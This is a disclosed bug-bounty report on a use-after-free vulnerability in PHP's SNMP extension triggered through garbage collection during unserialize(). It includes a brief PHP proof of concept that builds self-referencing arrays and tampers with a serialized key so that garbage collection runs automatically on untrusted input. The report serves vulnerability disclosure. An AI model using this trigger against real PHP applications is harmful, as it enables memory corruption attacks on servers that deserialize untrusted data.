 # Use After Free Vulnerability in SNMP with GC and unserialize()

## Report Details
- **Report ID**: 152266
- **URL**: https://hackerone.com/reports/152266
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-19T11:30:23.197Z
- **Disclosed**: 2019-10-13T11:07:15.510Z

## Reporter
- **Username**: ryat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
https://bugs.php.net/bug.php?id=72479

P.S. This bug can be triggered remotely without call to the gc_collect_cycles() since GC can also be invoked automatically in during deserialization. Like the following code:

```
<?php

$xxx = [];
for ($i = 0; $i < 10000; $i++) {
	$xxx[$i] = [[]];
	$xxx[$i][0] = &$xxx[$i];
}

$arr = ['xxx' => $xxx, 'yyy' => 1];
$call_gc_poc = str_replace('yyy', 'xxx', serialize($arr));
unserialize($call_gc_poc);

?>
```

## Attachments
No attachments
